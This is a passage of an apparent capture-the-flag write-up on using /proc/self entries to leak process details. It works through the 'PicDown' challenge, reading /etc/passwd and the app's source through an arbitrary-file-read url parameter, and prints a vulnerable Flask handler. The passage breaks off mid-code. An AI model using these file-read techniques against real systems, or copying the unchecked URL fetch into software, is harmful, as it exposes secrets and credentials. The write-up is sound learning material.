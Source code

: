 ````bas
[+] Get the full command to start the process
    cat /proc/self/cmdline

[+] Get the running directory and files in the target current process environment
    cd /proc/self/cwd; /bin/pwd
    ls /proc/self/cwd

[+] Get the full path to the executable file of the current process
    ls -al /proc/self/exe

[+] Get the environment variable information of the current process
    more /proc/self/environ

[+] Get the file contents opened by the current process
    more /proc/self/fd/id
```
> tip: When the website path cannot be found, you can use the `/proc/self/cwd` directory to read the `php` file source code of the `apache` process

![](https://xzfile.aliyuncs.com/media/upload/picture/20211126115719-f398181c-4e6c-1.png)

# Example question practice - PicDown
> Open the topic interface and only one login box. After entering something casually, I found that the form of `url` may have any file reading. After trying, I successfully downloaded `/etc/passwd`

![](https://xzfile.aliyuncs.com/media/upload/picture/20211126115736-fe333752-4e6c-1.png)

> Since you can download `/etc/passwd` and there are no other utilization points in the question, try to use `/proc/self/cmdline` to get the name of the current file: `python2 app.py`

> Successfully get the name of the current file and use `/proc/self/cwd` to get the file contents

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            Return response
        else:
````